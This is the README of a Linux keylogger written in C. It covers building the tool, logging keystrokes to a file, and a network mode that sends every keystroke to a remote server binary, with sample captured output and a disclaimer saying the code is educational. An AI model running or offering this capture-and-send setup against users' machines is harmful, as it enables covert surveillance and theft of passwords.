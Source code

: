 # keylog

A simple keylogger for Linux written in C. The current version will attempt to detect your keyboard event file automatically. 

## Usage

By default, keylog sends it's output to stdout. This allows us to do a bunch of things with the output of the keylogger. Examples will be stored in the [scripts](scripts) directory of the project. 

### Client

#### File

```bash
cd keylog/
sudo ./keylog -o file-to-write-to.txt
```

This will log all keystrokes to the specified file while the program is running.

#### Network

```bash
cd keylog/
sudo ./keylog -n hostname
```

This will send all keystrokes to the server running on `hostname`.

### Server
Compiling the project with
``` bash
make server
```
will give a seperate binary that will sit on a server machine and listen on a port and write to a file.  

#### stdout

```bash
cd keylog/
./server
```

This will write all keystrokes received from the client to stdout.

#### File

```bash
cd keylog/
./server -f file-to-write-to.txt
```

This will write all keystrokes received from the client to the specified file.

## Output Format

Each key press will cause a string representing that key to be written to the
chosen location, followed by a newline. When the program quits, an extra newline will be added.

#### Example

Typing `hello world` and then quitting the program with `Ctrl-C` will cause the chosen location to contain the following.

```
H
E
L
L
O
SPACE
W
O
R
L
D
LEFTCTRL
C
```

Some captured output does not make sense without accounting for when a key was released. The following is the result passing `keylog` the `--released` flag and typing `Hello World!`.

```
ENTER - up
LEFTSHIFT
H
LEFTSHIFT - up
H - up
E
E - up
L
L - up
L
L - up
O
O - up
SPACE
SPACE - up
LEFTSHIFT
W
W - up
LEFTSHIFT - up
O
O - up
R
R - up
L
L - up
D
D - up
LEFTSHIFT
1
1 - up
LEFTSHIFT - up
LEFTCTRL
C
C - up
```
## Building

```bash
cd keylog/
make
```

# Disclaimer

This code was created entirely out of an interest in learning about linux keyboard events. It should never be used on any machine where you are not authorised to log keystrokes.

